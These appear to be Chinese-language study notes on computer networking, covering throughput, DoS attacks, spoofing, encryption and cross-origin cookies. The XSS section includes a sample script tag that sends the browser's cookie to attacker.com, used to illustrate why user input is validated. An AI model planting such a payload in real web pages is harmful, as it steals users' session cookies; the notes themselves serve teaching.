吞吐量

```
吞吐量 = 接收方通过网络接收数据的速率 (bits/sec)
当多个link串联时, 总的吞吐量取决于吞吐量最小的link(瓶颈原理)
```

## 1.4 网络安全

常见的通过网络的攻击方式

```
* denial-of-service (DoS) attacks
* packet sniffer获取数据报
* IP欺骗(可以轻易发送一个包含任意源ip, 目标ip的packet)
```

常见Dos攻击

```
1. 带宽泛洪攻击: 发送大量packet到目标host导致主机的link阻塞
2. 连接泛洪攻击: 发送大量TCP半连接, 导致host不能响应合法连接
3. 漏洞攻击: 发送特定的请求引发目标主机上的应用/OS漏洞
```

对称加密和非对称加密

```
对称加密: 加密和解密使用同一个密钥
非对称加密: 加密使用公钥, 解密使用私钥, 更安全但速度慢
```

XSS

```
XSS（Cross Site Scripting）攻击是一种常见的Web安全漏洞，攻击者利用这个漏洞向页面中注入恶意脚本代码，当用户浏览网页时，恶意脚本会被执行，从而盗取用户的敏感信息或进行其他恶意行为。
例如用户在评论区输入
<script>document.location.href='http://attacker.com/?cookie='+document.cookie;</script>
如果不验证用户输入是否有问题会导致cookie泄漏
```

cookie跨域问题

```
浏览器对于跨域网站, cookie不会携带, 服务器可以使用nginx反向代理服务器
```

## 1.5 OSI七层和TCP/IP五层
